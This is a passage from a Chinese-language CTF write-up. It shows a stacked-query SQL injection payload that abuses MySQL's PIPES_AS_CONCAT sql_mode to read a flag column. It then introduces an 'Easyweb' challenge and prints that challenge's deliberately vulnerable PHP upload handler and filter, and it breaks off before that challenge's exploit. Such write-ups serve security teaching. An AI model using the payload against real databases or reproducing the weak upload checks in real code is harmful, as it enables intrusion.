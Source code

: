 利用`sql_mode`进行设置

将sql_mode设置为PIPES_AS_CONCAT的话，||就不再是逻辑or了，而变成了字符串连接符。
因此设置之后`select 1||flag from Flag`就变成了将`select 1 from Flag`和`select flag from Flag`的结果拼接到一起了。

关于[sql_mode](https://developer.aliyun.com/article/710525),可以看看这个

[MySQL SQL_MODE详解_ITPUB博客](http://blog.itpub.net/29773961/viewspace-1813501/)

payload

```php
1;set sql_mode=PIPES_AS_CONCAT;select 1
==select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag;
```

直接得到flag。

##  Easyweb

这个题其实不难，但是特别综合，挺好的

###  考点

- 代码审计
- 无数字字母webshell
- 文件上传的各种姿势和套路
- 绕过open_basedir

###  wp

先代码审计

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!!
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
        mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
        if(preg_match("/ph/i",$extension)) die("^_^");
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
        if(!exif_imagetype($tmp_name)) die("^_^");
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

```